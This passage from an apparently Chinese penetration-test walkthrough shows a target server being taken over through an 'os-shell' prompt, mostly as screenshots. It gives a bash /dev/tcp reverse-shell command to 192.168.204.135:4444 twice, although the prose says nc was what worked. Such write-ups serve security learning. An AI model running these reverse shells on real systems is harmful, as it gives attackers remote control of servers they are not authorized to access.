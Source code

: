[![](assets/1705886707-ae396fd7684eebecd8c17e2aca7c7e47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120725-6b140b66-b749-1.png)  
[![](assets/1705886707-3b25bed7017943fedd832be6f40c77a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120743-7624216c-b749-1.png)  
随后我们去尝试反弹 shell，发现 bash 反弹 (/bin/bash -i >& /dev/tcp/192.168.204.135/4444 0>&1) 失败，随后经历过一些尝试发现可以使用 nc 来反弹 shell，执行结果如下：

```bash
os-shell> /bin/bash -c 'bash -i >& /dev/tcp/192.168.204.135/4444 0>&1'
```

[![](assets/1705886707-4d273f35c7f0034a89e8c7f9e29bb270.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120821-8cb215ec-b749-1.png)  
随后我们在攻击主机上获取到目标服务器的 shell，至于后续的提权就不做演示了  